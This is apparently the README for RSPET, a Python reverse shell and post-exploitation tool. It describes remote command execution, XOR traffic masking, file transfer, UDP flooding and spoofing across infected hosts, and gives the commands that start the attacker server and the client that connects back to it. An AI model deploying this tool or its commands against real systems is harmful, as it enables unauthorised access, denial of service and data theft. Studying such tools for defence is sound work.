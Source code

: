 # RSPET

![MIT Licence](https://img.shields.io/badge/Licence-MIT_Licence-red.svg?style=plastic)
[![Python 2.7](https://img.shields.io/badge/Python-2.7-yellow.svg?style=plastic)](https://www.python.org/)
![v0.0.6](https://img.shields.io/badge/Release-v0.1.0-orange.svg?style=plastic)
![Maintained](https://img.shields.io/badge/Maintained-Yes-green.svg?style=plastic)
[![Twitter](https://img.shields.io/badge/Twitter-@TheRSPET-blue.svg?style=plastic)](https://twitter.com/theRSPET)

> RSPET (Reverse Shell and Post Exploitation Tool) is a Python based reverse shell equipped with functionalities that assist in a post exploitation scenario.

DISCLAIMER: This software is provided for educational purposes and as a proof of concept. The developer(s) do not endorse, incite or in any other way support unauthorised computer access and networks disruption.

NOTE: As of v0.0.3 folder `min` has been added. Since the new version has many more features not essential to the main functionality (a reverse shell that is), min will not recieve any more features beyond v0.0.3 and will only get bug and performance related fixes.

Current Version: `v0.1.0`

Follow: [@TheRSPET](https://twitter.com/TheRSPET) on Twitter for updates.

## Features

* Remote Command Execution
* Trafic masking (XORed insted of cleartext); for better results use port 443[1]
* Built-in File/Binary transfer (both ways) over the masked trafic
* Built-in UDP Flooding tool
* Built-in UDP Spoofing tool[2]
* Multiple/All Hosts management; order File/Binary transfer and UDP Flood from Multiple/All connected Hosts
* Modular Code Design to allow easy customization[3]
* Client script is tested and is compatible with PyInstaller (can be made into .exe)[4]

*[1]The idea for XORing as well as the skeleton for the client came from [primalsecurity.net](http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]UDP Spoofing uses RAW_SOCKETS so in order to utilize it, the client has to run on an OS that supports RAW_SOCKETS (most Unix-Based) and with root privilages. Finally, most of the ISPs have implementations in place that will either drop or re-structure spoofed packets

*[3]See EXPANDING for how you can easily add new functionality and customize RSPET to your needs

*[4]Again check [primalsecurity.net's](http://www.primalsecurity.net) perfect blogpost about producing an .exe

## Deployment:

* `rspet_server.py` or `RSPET_server_min.py` is situated at the attacker's machine and running to accept connections
* `rspet_client.py` or `RSPET_client_min.py` is situated in the infected machine(s) and will initiate the connection and wait for input. 

## Execution:

* Server:
```sh
python rspet_server.py (max_connections) 
```
max_connections defaults to 5 if left blank

* Client: 
```sh
python rspet_client.py server_ip
```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## Distros
> A list of Distros that contain RSPET

* [BlackArch Linux](http://blackarch.org/tools.html) (as of version 2016.04.28)
* [ArchStrike](https://archstrike.org/packages/search/rspet)

## As Featured in

* [seclist.us](http://seclist.us/rspet-reverse-shell-and-post-exploitation-tool.html)
* [sillycon.org](http://www.sillycon.org/stories/article/github-panagiksrspet-rspet-reverse-shell-and-post-exploitation-tool-is-a-python-based-reverse-shell-equipped-with-functionalities-that-assist-in-a-post-exploitation-scenario)
* [digitalmunition.me](https://www.digitalmunition.me/2016/04/rspet-reverse-shell-post-exploitation-tool/)
* [n0where.net](https://n0where.net/reverse-shell-post-exploitation-tool/)
* [kitploit.com](http://www.kitploit.com/2016/05/rspet-python-reverse-shell-and-post.html)
* [Hakin9 IT Security Magazine](https://www.facebook.com/hakin9mag/posts/1376368245710855)

## Todo

- [x] ~~Fix logic bug where if a dirrect command to Host OS has no output Server displays command not recognised~~
- [ ] Fix logic bug where if a dirrect command's to Host OS execution is perpetual the Server deadlocks
- [x] ~~Add client version and type (min or full) as a property when client connects and at `List_Hosts`~~
- [ ] Add client update mechanism (being worked on)
- [ ] Add UDP Reflection functionality (already in the workings)

## Styleguide

This project is following [Google's Python Styleguide](https://google.github.io/styleguide/pyguide.html) with a minor varitation on the use of whitespaces to align ":" tokens.

## Contribution Opportunities

This project is open for contributors. If you have implemented a new feature, or maybe an improvment to the current code feel free to open a pull request. If you want to sugest a new feature open an issue. Additionally Testers are needed to run a few standard scenarios (and a few of their own maybe) to decrease the chance a bug slips into a new version. Should there be any interest about testing a `beta` folder will be created (where code to be tested will be uploaded) along with a list of scenarios.

## Author

[panagiks](https://twitter.com/panagiks)

## Contributors

* [b3mb4m](https://github.com/b3mb4m) -- Code (tab.py and bug fixes)
* [junzy](https://github.com/junzy) -- Docstings (udp_spoof & udp_spoof_send)

## License

MIT
